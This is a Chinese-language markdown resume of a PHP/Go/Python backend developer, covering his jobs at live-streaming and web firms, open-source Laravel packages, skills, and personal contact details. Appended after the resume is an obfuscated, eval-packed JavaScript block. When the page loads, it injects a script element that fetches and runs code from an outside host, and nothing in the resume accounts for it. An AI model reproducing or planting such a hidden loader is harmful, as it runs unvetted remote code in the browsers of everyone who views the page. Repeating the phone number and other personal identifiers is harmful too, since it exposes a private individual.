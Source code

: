# 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：9年+
 - 最高学历：大专
 - 期望城市：上海
 - 期望职位：PHP、Go、Python开发工程师

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[hi@anlo.ng](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one
- Github：[https://github.com/al-one](https://github.com/al-one?tab=repositories&type=source)

---

# 工作经历

## 上海白兔网络科技有限公司 （2022年2月 ~ 至今）
- 负责公司旗下poppo、聊客直播项目的服务端开发；


## 上饶市橙橙网络科技有限公司上海分公司 （2021年3月 ~ 至今）

### [七号助手APP](http://app.5wufun.com/h5app/#/down?p=mhxy&a=release)
- 负责公司子项目七号助手APP后端开发；
- 搭建项目后端生产及测试运行环境；
- 使用 Laravel 框架构建项目API接口；
- 使用Inertia.js+Vue3+Bootstrap构建管理后台；
- 使用Redis分渠道异步统计用户/设备数据；

> 七号助手是一款通过安卓沙箱实现的游戏挂机平台，即将游戏运行在我们的APP中，实现完全控制游戏的root权限，并通过脚本自动为用户在后台执行日常任务。本人从0开始为项目搭建了服务器环境、API接口、管理后台、数据统计等。最终因各个手机厂商对后台运行控制严格，使APP无法长时间在后台运行，以及沙箱技术不成熟、投资人失去耐心等原因结束了项目。


## 上海宇燕网络科技有限公司 （2016年10月 ~ 2021年3月）

### [烈火直播APP](#)
- 新需求分析、数据表设计及IM协议定义；
- 支付宝、微信公众号充值钻石；
- 热门直播自动排序及后台手动排序算法；
- 幸运礼物算法实现 赠送指定礼物有机会获得钻石翻倍奖励；
- 主播家族及成员业绩、收益统计结算；
- 转盘抽奖、押注等H5游戏接口；
- 七牛、UCloud、金山直播云及连麦互动服务端接入；
- 新增、日活、留存等数据分渠道分设备异步统计分析；
- 各接口、SQL优化及历史遗留问题修复；
- 负载均衡、环境配置调优、高并发接口优化等；

> 烈火初期是一款基于地理位置的匹配社交软件，第一个版本上线于2015年底，上线后导入秒见Miao App的70多万用户及相关行为数据等。2016年7月上线直播功能。9月底被三叉戟公司收购，2017年3月独立于宇燕网络。总注册用户数超1300万，最高DAU7万，单日最高流水50万多，月流水900万左右。从烈火立项开始，我一直参与开发。在宇燕网络期间，担任技术主管，很长一段时间里PHP由本人独自一人开发、维护，同时负责运维工作。


## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP相关API接口](#)
- 用户付费充值相关接口：
    - 用户钻石、魅力值等账户数据内部接口；
    - 支付宝、微信充值及提现；
    - 福袋、宝箱（类似抢红包）相关接口；
    - 一对一礼物、直播礼物接口；
- 视频直播相关接口：
    - 直播喇叭、热门票等道具相关接口；
    - 直播任务奖励相关接口；
    - 观众贡献榜单排行等接口；
- 各类专题活动相关接口及H5页面；
- APP直传OSS相关接口；

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；


## 合肥一浪网络科技有限公司 （2013年3月 ~ 2015年2月）
- 企业、政府、门户网站搭建；
- 独立开发客户管理系统等；

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建搭建、模板制作等


---

# 开源项目和作品

## 开源项目

 - [hass-xiaomi-miot](https://github.com/al-one/hass-xiaomi-miot) : 小米智能家居设备接入Home Assistant插件
 - [laravel-huawei-push](https://packagist.org/packages/al-one/laravel-huawei-push) : 华为离线推送Laravel通知频道
 - [laravel-xiaomi-push](https://packagist.org/packages/al-one/laravel-xiaomi-push) : 小米离线推送Laravel通知频道
 - [laravel-soft-deletes-unix](https://packagist.org/packages/al-one/laravel-soft-deletes-unix) : Laravel软删除使用Unix时间戳
 - [eloquent-super-relations](https://packagist.org/packages/al-one/eloquent-super-relations) : Eloquent关联模型加强(可读缓存)
 - [laravel-predis-listened](https://github.com/al-one/laravel-predis-listened) : Laravel监听pRedis命令
 - [certbot-auth-dnspod](https://github.com/al-one/certbot-auth-dnspod) : Certbot使用DNSPod验证脚本
 - [parse_urls](https://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版

## 业余作品

 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [CKEditor表情插件](http://app.ah.cn/app/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功


---

# 技能清单
- 语言：PHP / Python / Golang / JavaScript / Shell
- 框架：Laravel / Symfony / ThinkPHP / Vue.js / Inertia.js
- 架构：Nginx / MySQL / Redis / Supervisor / Docker
- 前端：Bootstrap / Webpack / Lodash / Axios / jQuery
- 工具：PhpStorm / Git / Composer / PHPUnit / xDebug
- 其他：Swagger / Regex / RaspberryPi / Opencv / Home Assistant


---

# 自我描述
- 熟练使用PHP开发各种应用，熟悉Laravel、ThinkPHP框架；
- 熟悉Redis各种数据类型的应用场景及Linux环境搭建；
- 熟悉MySQL数据库优化以及Git、SVN等协作工具；
- 精通Web前端，熟练使用Vue.js、Bootstrap、jQuery；
- 熟悉正则表达式、Markdown，喜欢接触新的技术；


<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>

